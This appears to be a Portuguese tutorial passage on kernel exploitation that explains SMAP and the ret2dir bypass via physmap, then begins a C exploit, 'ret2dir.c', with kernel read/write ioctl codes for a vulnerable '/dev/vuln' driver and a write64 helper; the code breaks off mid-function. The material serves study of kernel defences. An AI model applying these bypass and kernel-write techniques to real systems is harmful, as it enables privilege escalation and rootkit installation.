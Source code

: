 O **SMAP** bloqueia o acesso do kernel a páginas de memória do espaço do usuário durante operações privilegiadas e impede que dados controlados pelo usuário sejam usados para corromper estruturas do kernel ou vazar informações sensíveis. Como funciona no low level?

* `stac (Set AC Flag):` Permite temporariamente acesso a userland (usado em funções como  copy_from_user).
* `clac (Clear AC Flag):` Restaura a proteção do SMAP.
* `AC Flag:` Quando SMAP está ativo, a CPU verifica a flag AC (bit 18 no registrador RFLAGS). Se AC=0, acessos a Userland são bloqueados.  


E rootkits isto é péssimo pois impede que rootkits usem dados do userland para manipular o kernel dificulta ataques de corrupção de memória que dependem de ponteiros controlados pelo usuário.
Uma das formas de contornar esses sistemas é por meio ret2dir, dessa forma o atacante aloca grandes quantidades de memória no espaço do usuário, forçando o kernel a mapear essas páginas no **physmap**. Como o physmap é compartilhado entre userland e kernel, dados controlados pelo atacante podem residir em endereços conhecidos do kernel. O atacante aloca múltiplas páginas na userland, via mmap e as preenche com código malicioso (shellcode). isto é útil pois o SMAP e SMEP não impedem a execução do physmap. segue abaixo um código com esse objetivo:

![ret2dir](https://figures.semanticscholar.org/1de5ae8534fc76323e4d926e10dc0fc76a28a361/5-Figure2-1.png)



### Arquivo:"ret2dir.c" 
```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/fcntl.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define VULN_READ 0x1111
#define VULN_WRITE 0x2222
#define VULN_STACK 0x3333
#define VULN_PGD 0x4444

struct rwRequest {
	void *kaddr;
	void *uaddr;
	size_t length;
};

unsigned long pageOffsetBase = 0xffff888000000000;

int Open(char *fname, int mode) {
	int fd;
	if ((fd = open(fname, mode)) < 0) {
    	perror("open");
    	exit(-1);
	}
	return fd;
}

void write64(unsigned long kaddr, unsigned long value) {

	struct rwRequest req;
	unsigned long value_ = value;

	req.uaddr = &value_;
	req.length = 8;
	req.kaddr = (void *)kaddr;

	int fd = Open("/dev/vuln", O_RDONLY);

```